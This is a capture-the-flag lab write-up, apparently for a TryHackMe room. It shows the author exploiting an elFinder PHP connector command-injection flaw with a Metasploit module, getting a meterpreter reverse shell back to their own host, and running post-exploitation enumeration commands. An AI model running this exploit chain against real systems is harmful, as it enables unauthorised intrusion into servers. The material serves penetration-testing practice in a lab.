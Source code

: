  ```zsh
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                                                                                                                       | php/remote/46539.rb
elFinder PHP Connector < 2.1.48 - 'exiftran' Command Injection (Metasploit)                                                                                                                       | php/remote/46539.rb

 ```
 tried uploading python file it got failed to upload

used metasploit
```msf
msf > search elfinder
0  exploit/multi/http/builderengine_upload_exec
1  exploit/unix/webapp/tikiwiki_upload_exec
2  exploit/multi/http/wp_file_manager_rce
3  exploit/linux/http/elfinder_archive_cmd_injection
4  exploit/unix/webapp/elfinder_php_connector_exiftran_cmd_injection
```
need a php connector so used 4
 ```msf
 msf > use 4
 msf > set RHOST files.lookup.thm
 msf > set LHOST 10.17.10.30
 msf > run
 ```
 got the meterpreter shell
```
meterpreter > shell
Process 5654 created.
Channel 0 created.
```

did the basic things
```
uname -a
cat /etc/os-release
whoami
```
output
```bash
Linux ip-10-10-20-241 5.15.0-139-generic #149~20.04.1-Ubuntu SMP Wed Apr 16 08:29:56 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux

NAME="Ubuntu"
VERSION="20.04.6 LTS (Focal Fossa)"
ID=ubuntu
ID_LIKE=debian
PRETTY_NAME="Ubuntu 20.04.6 LTS"
VERSION_ID="20.04"
HOME_URL="https://www.ubuntu.com/"
SUPPORT_URL="https://help.ubuntu.com/"
BUG_REPORT_URL="https://bugs.launchpad.net/ubuntu/"
PRIVACY_POLICY_URL="https://www.ubuntu.com/legal/terms-and-policies/privacy-policy"
VERSION_CODENAME=focal
UBUNTU_CODENAME=focal

www-data
```
tried to read home directory
```
ls /home
```
there are 3 directories
ssm-user  think  ubuntu
```
```